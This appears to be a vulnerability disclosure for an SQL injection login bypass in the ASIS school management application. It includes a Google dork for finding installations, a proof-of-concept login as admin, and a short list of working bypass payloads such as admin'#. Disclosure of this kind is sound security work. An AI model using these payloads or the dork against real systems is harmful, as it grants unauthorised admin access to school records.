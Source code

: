 # ASIS | Aplikasi Sistem Sekolah using CodeIgniter 3 - SQL Injection Authentication Bypass

### CVE Assigned:
**[CVE-2024-XXXXX](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-XXXXX)** [mitre.org](https://www.cve.org/CVERecord?id=CVE-2024-XXXXX) [nvd.nist.org](https://nvd.nist.gov/vuln/detail/CVE-2024-XXXXX)

### Date:

> 5 July 2024

### Author Email:

> atoz.chevara@yahoo.com

### Google Dork:

> "ASIS | Aplikasi Sistem Sekolah"

### Vendor Homepage:

> https://www.facebook.com/groups/181558652941070/

### Software Link:

> [ASIS - Aplikasi Sistem Sekolah dengan Framework Codeigniter](https://members.phpmu.com/forum/read/asis--aplikasi-sistem-sekolah-dengan-framework-codeigniter)

### Version:

> v 3.0.0 & 3.2.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> index.php

> `username` parameter within the login mechanism is vulnerable to SQL Injection.


### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

* Step 1 - Visit http://localhost/asispanel/
* Step 2 - Enter username as `admin'#` and password as `xyz`
* Step 3 – Click `LOGIN` and now you will be logged in as admin.

### Payloads Can be use:

```
admin'#
'||1#
'||1-- 
'=' 'or'
```

## Recommendations

When using this ASIS, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.
